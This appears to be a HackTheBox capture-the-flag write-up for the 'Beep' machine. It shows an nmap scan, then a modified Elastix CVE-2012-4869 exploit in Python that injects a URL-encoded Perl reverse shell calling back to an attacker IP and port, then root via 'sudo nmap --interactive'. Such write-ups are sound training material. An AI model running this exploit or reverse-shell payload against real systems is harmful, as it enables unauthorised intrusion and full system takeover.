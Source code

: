 ```yaml
---
title: Beep
tags:
  - HackTheBox
  - Easy
  - Linux
  - Elastix
  - Sudo-Vulnerability
date: 2025-02-02T00:00:00Z
---
```

![](Pasted%20image%2020250202215154.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.7 beep.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- beep.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http
|_http-title: Did not follow redirect to https://beep.htb/
110/tcp   open  pop3
|_pop3-capabilities: TOP USER STLS IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE UIDL RESP-CODES APOP LOGIN-DELAY(0) EXPIRE(NEVER) PIPELINING
111/tcp   open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap
|_imap-capabilities: NAMESPACE OK STARTTLS X-NETSCAPE Completed LIST-SUBSCRIBED LISTEXT ID THREAD=REFERENCES QUOTA CATENATE CHILDREN SORT=MODSEQ IDLE THREAD=ORDEREDSUBJECT SORT ANNOTATEMORE ATOMIC CONDSTORE MULTIAPPEND NO LITERAL+ BINARY ACL IMAP4rev1 RIGHTS=kxte MAILBOX-REFERRALS URLAUTHA0001 IMAP4 UIDPLUS RENAME UNSELECT
443/tcp   open  https
|_http-title: Elastix - Login page
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2025-02-02T20:54:09+00:00; +4s from scanner time.
793/tcp   open  status
993/tcp   open  imaps
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
| ssl-cert: Subject: commonName=*/organizationName=Webmin Webserver on localhost.localdomain
| Not valid before: 2017-04-07T08:24:46
|_Not valid after:  2022-04-06T08:24:46
|_ssl-date: 2025-02-02T20:54:56+00:00; +4s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
```

So I checked its website

> Here I ran into a problem because the TLS protocol was so old that my browser didn't support it

![](Pasted%20image%2020250202220305.png)

So I enabled older TLS protocols to see this machine:

![](Pasted%20image%2020250202220500.png)

![](Pasted%20image%2020250202220535.png)

## Weaponization

I didn't know what Elastix was, so I searched info about it:

> [!Info]
>*Elastix is a unified communications server software that integrates IP PBX, email, instant messaging, faxing, and collaboration functionalities. It offers a web interface and includes capabilities such as call center software with predictive dialing.*

So I searched for "*elastix exploit*" and got [CVE-2012-4869](https://www.exploit-db.com/exploits/18650). I modified a bit the exploit:

```python
import urllib2
import ssl

rhost="beep.htb"
lhost="10.10.14.20"
lport=666
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

## Exploitation

I'll run it using python2:

```shell
# previously set nc listener
python2 exploit.py
```

> Got a reverse shell :D

![](Pasted%20image%2020250202221716.png)

## Privilege Escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

We can become root as explained in [GTFObins](https://gtfobins.github.io/gtfobins/nmap/#sudo) via nmap sudo vulnerability:

```shell
sudo nmap --interactive
nmap> !sh
```

> We are now root and can get both root and user flag :D

![](Pasted%20image%2020250202222421.png)
### User flag

![](Pasted%20image%2020250202222505.png)

### Root flag

![](Pasted%20image%2020250202222541.png)

==Machine pwned!==